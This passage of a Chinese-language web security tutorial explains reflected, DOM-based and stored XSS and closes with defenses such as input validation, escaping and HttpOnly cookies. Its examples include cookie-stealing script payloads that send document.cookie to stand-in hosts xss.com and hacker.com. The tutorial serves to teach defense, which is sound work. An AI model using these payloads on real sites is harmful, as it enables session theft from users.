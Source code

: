 比如有攻击者想获取用户 cookie，编写了下面一段 JavaScript 代码。通过动态创建一个 script 标签，然后把当前 cookie 发送给目标地址 xss.com。（插入了恶意脚本代码）

```
<script> 
s=document.createElement('script'); 
s.src=`xss.com?cookie=${document.cookie}`; 
document.head.append(s) 
</script>
```

那么就可以将代码进行 URI 转码之后，赋值给 URL 参数 search，把这个参数添加到对应的网址并发送给对应的用户即可获取它的 cookie。

```
?search=<script>var s=document.createElement('script');s.src=`xss.com?cookie=${document.cookie}`;document.head.append(s);</script>
```

当然这种赤裸裸的发送很容易引起用户警觉，所以一般会转为短网址并且包装成一些带有诱导性文字的超链接，引诱用户点击访问，一旦用户点击就不知不觉地向攻击者发送了自己的 cookie。

##### DOM型

反射型的XSS一般是在前后端一体的网页应用中，服务端逻辑会改变最终的网页代码。

DOM 型 XSS 可以看作一种特殊的反射型 XSS，它也是一种非持久型 XSS，不过相对于反射型 XSS 而言它**不需要经过服务端**。比如在上面的例子中，如果把解析 URL 参数 search 的逻辑放在前端页面进行，那么攻击类型就属于 DOM 型。

```js
<script> 
  var search = location.search.replace('?search=', '') 
  document.write("你搜索了 :" + decodeURI(search)) 
</script>
```

+ 引导用户点击：http://server.com/index.php?search=<script></script>

+ 浏览器拼接search参数并修改DOM

+ 浏览器请求：http://hacker.com?cookie=document.cookie

##### 存储型

存储型和反射型相比破坏性更大，因为存储型的恶意代码存储在数据库等地方，每次访问页面都会触发 XSS。比如一些网站允许用户设置一段个性签名，并且显示在个人主页，攻击者就可以在个性签名中输入恶意代码并提交到服务端，如果这段代码没有进行任何处理直接存储到数据库，那么其他用户访问这个个人主页的时候都会执行这段恶意代码。

> 或者我们在评论区输入一段脚本，传到服务器，实际上这个页面就会包含攻击代码了，这样用户请求页面时，可能就会执行恶意代码，发送cookie给黑客。

##### XSS防护

###### 参数校验

**参数校验。**对于 HTTP 请求的 URL 参数和请求体 payload 的数据进行校验，比如我们接收的数据是用户年龄，那么在后端，需要判断一下数据是否是 Number，对于不符合校验规则的数据及时抛出错误。

###### 字符转义

**字符转义。**对于一些特殊符号，比如“<”“>”“&”“"”“'”“/”，我们需要对其进行转义，后端接收这些代码时候的转义存储，前端在显示的时候，再把它们转成原来的字符串进行显示。

对于用户输入的字符串内容，不要使用 eval、new Function 等动态执行字符串的方法，也不要将这些字符串通过 innerHTML、outerHTML、document.write() 方式直接写到 HTML 中。对于非客户端 cookie，比如保存用户凭证的 session，将其设置为 http only，避免前端访问 cookie。

